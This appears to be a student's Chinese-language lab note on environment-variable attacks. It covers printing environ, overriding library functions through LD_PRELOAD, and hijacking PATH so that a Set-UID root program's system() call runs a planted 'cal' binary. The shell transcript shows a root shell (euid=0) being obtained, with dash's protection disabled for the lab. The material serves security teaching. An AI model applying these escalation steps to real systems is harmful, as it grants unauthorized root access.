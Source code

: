 # 第二章 通过环境变量来实现攻击

## 介绍环境变量

environ.c 程序可以打印进程中所有的环境变量

```C
#include <stdio.h>

extern char ** environ;	// extern提示编译器遇到这个函数或者变量时，在其他模块寻找定义

int main(int argc, char const *argv[], char *envp[])
{
	int i = 0;
	while(environ[i] != NULL){
		printf("%s\n", environ[i++]);
	}
	return 0;
}
```



## 通过动态连接进行的攻击


	动态链接库的风险：
	在使用动态链接时，程序的一部分代码在编译过程中是不确定的(此时程序员对程序有完全的控制权)，
	这部分代码被确定下来时是程序运行阶段(此时用户对程序有完全控制权)


> LD_PRELOAD LD_LIBRARY_PATH 


mytest.c 是一个调用了 sleep()函数的程序，但可通过将sleep.c编译成动态链接库，并export到LD_PRELOAD从而使mytest程序不能正常运行


使mytest成为Set-UID程序之后，会发现在*保护机制*的保护下仍可正常运行，而不会受到攻击


创建共享库的方式：
```sh
	$ gcc -c sleep.c
	$ gcc -shared -o libmylib.so.1.0.1 sleep.o
	$ export LD_PRELOAD=./libmylib.so.1.0.1
```

## 通过外部程序进行的攻击


攻击原理：

	system()函数没有提供完整路径时，shell会在PATH环境变量中寻找
	我们可以修改PATH环境变量，在其中加入我们希望执行的恶意代码


> 由于dash的保护措施，将/bin/sh指向/bin/zsh来保证实验效果

` $ sudo ln -sf /bin/zsh /bin/sh `


实验结束后记得使用 ` $ sudo ln -sf /bin/dash /bin/sh `将sh改回来

```sh
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ gcc -o vul vul.c
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ sudo chown root vul
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ sudo chmod 4755 vul
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ ./vul 
      十二月 2020        
日 一 二 三 四 五 六  
       1  2  3  4  5  
 6  7  8  9 10 11 12  
13 14 15 16 17 18 19  
20 21 22 23 24 25 26  
27 28 29 30 31        
                    
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ gcc -o cal cal_attack_vul.c 
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ export PATH=.:$PATH
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ ./vul 
bash-4.4# id
uid=1000(yuan) gid=1000(yuan) euid=0(root) 组=1000(yuan)
```


